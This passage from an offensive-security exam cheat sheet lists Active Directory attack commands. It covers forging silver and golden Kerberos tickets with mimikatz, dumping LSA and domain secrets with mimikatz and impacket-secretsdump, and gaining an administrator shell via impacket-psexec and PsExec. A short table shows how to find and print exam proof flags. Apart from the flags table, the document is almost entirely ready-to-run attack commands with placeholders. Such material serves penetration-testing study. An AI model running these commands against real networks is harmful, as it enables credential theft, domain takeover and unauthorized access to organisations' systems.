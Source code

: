 ### 9.5. Getting tickets

#### 9.5.1. [Silver ticket](/notes/attacking-active-directory.md#43-silver-ticket)

```cmd
whoami /user
mimikatz # kerberos::hash /password:$SERVICE_ACCOUNT_PASSWORD
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:$USERNAME /domain:$DOMAIN /sid:$DOMAIN_SID /id:$USER_SID /target:$TARGET /service:$SERVICE /rc4:$SERVICE_ACCOUNT_PASSWORD_HASH /ptt
```

#### 9.5.2. [Golden ticket](/notes/attacking-active-directory.md#5-golden-ticket)

Option 1: `impacket`

```sh
impacket-secretsdump -hashes $LM_HASH:$NT_HASH $DOMAIN/$USERNAME@$TARGET
impacket-lookupsid -hashes $LM_HASH:$NT_HASH $DOMAIN/$USERNAME@$TARGET
impacket-ticketer -nthash $KRBTGT_NT_HASH -domain-sid $DOMAIN_SID -domain $DOMAIN administrator
impacket-psexec $DOMAIN/administrator@$TARGET -k -no-pass -target-ip $TARGET_IP -dc-ip $DC_IP
```

Option 2: `mimikatz`

```cmd
whoami /user
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:administrator /domain:$DOMAIN /sid:$DOMAIN_SID /krbtgt:KRBTGT_NT_HASH /ptt
mimikatz # misc::cmd
PsExec.exe \\$TARGET cmd.exe
```

## 10. Exam proofs

|OS|Finding|Printing|
|---|---|---|
|Linux|`find / -name proof.txt`|`hostname`<br>`cat /path/to/flag/proof.txt`<br>`ifconfig`|
|Windows|`dir /S C:\*proof.txt`|`hostname`<br>`type C:\path\to\flag\proof.txt`<br>`ipconfig`|
